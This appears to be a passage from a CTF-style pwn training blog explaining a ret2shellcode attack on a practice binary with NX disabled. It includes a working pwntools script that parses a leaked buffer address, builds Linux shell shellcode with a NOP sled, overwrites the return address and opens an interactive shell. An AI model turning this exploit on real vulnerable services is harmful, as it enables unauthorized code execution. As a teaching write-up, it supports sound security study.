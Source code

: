 ## return 2 shellcode:

This is the third and final way that we will discuss in this blog. Do you remember the leak at the begining ? Yes we will use the leak to get a shell. This time ignore the win() function. Without the help of helper function get a shell yourself :D . 

Remember at the begining I said this binary is NX disabled. So we can basically store the commands that we want to excecute in buf variable and then jump back to the buf variable thereby excecuting whatever we want.

> A shellcode is a set of instruction that will give you a shell or does some function that you want when excecuted.

* First step is to store the leak in a variable. We will use **recvline** function here to recv the output given by the program.
* Write all the commands that you want to excecute to get a shell (pwntools has inbuilt functionalities :D ).
* Fill the gap between the return and the shellcode with dummy instructions called nop.
* Jump back to buf variable.

```python
#!/usr/bin/env python3
from pwn import *

def start():
	global p
	if args.REMOTE:
		p = remote('localhost', 1337)
	else:
		p = elf.process() # start the process.

context.binary = elf = ELF('./ret2shellcode') 
start()

buf_addr = int(p.recvlines(2)[-1].split()[-1], 16) # recvlines and then get the leak

payload = asm(shellcraft.linux.sh()) # generates a shellcode compatible with linux systems
payload += b'\x90'*(104 - len(payload)) # spans the gap between buf variable and return 
payload += p64(buf_addr) # address of the buf variable

p.sendline(payload) # send the payload

p.interactive() # doesnt close the shell and keeps it open for us.
p.close()
```

Hope you liked the pwn training 1. More training writeups coming soon ! :D 